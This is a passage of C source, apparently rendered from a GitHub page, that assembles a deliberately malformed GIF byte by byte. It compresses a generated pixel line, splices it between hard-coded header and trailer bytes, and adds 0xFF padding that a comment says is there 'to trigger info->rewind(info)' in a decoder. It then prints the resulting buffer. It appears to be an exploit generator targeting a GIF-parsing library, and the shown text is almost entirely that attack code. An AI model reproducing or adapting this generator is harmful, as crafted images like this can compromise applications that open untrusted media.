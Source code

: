 ```c
            .RunningBits = 9,
            .MaxCode1 = 512,
            .CrntCode = FIRST_CODE,
            .CrntShiftState = 0,
            .CrntShiftDWord = 0,
            .PixelCount = 112,
            .OutBuf = { 0 },
            .OutBufLen = 0
    };
    int size = 0;
    unsigned char buffer[1000] = { 0 };

    unsigned char line[500] = { 0 };
    int line_size = genLine_0(line);
    EGifCompressLine(&Private, line, line_size);

    unsigned char starting[48] = {
            0x47, 0x49, 0x46, 0x38, 0x39, 0x61, 0x18, 0x00, 0x0A, 0x00, 0xF2, 0x00, 0x00, 0x66, 0xCC, 0xCC,
            0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x33, 0x99, 0x66, 0x99, 0xFF, 0xCC, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x2C, 0x00, 0x00, 0x00, 0x00, 0x08, 0x00, 0x15, 0x00, 0x00, 0x08
    };
    unsigned char padding[2] = { 0xFF, 0xFF };
    unsigned char ending[61] = {
            0x2C, 0x00, 0x00, 0x00, 0x00, 0x1C, 0x0F, 0x00, 0x00, 0x00, 0x00, 0x2C, 0x00, 0x00, 0x00, 0x00,
            0x1C, 0x0F, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2C, 0x00,
            0x00, 0x00, 0x00, 0x18, 0x00, 0x0A, 0x00, 0x0F, 0x00, 0x01, 0x00, 0x00, 0x3B
    };

    // starting bytes
    memcpy(buffer + size, starting, sizeof(starting));
    size += sizeof(starting);

    // size of encoded line + padding
    int tmp = Private.OutBufLen + sizeof(padding);
    buffer[size++] = tmp;

    // encoded-line bytes
    memcpy(buffer + size, Private.OutBuf, Private.OutBufLen);
    size += Private.OutBufLen;

    // padding bytes of 0xFFs to trigger info->rewind(info);
    memcpy(buffer + size, padding, sizeof(padding));
    size += sizeof(padding);

    // ending bytes
    memcpy(buffer + size, ending, sizeof(ending));
    size += sizeof(ending);

    char hex_dump[5000];
    get_hex(buffer, size, hex_dump, 5000, 16);
    printf("buffer = %p size = %d\n%s\n", buffer, size, hex_dump);
}
```
egif_lib.c
```c
#include <stdlib.h>
```
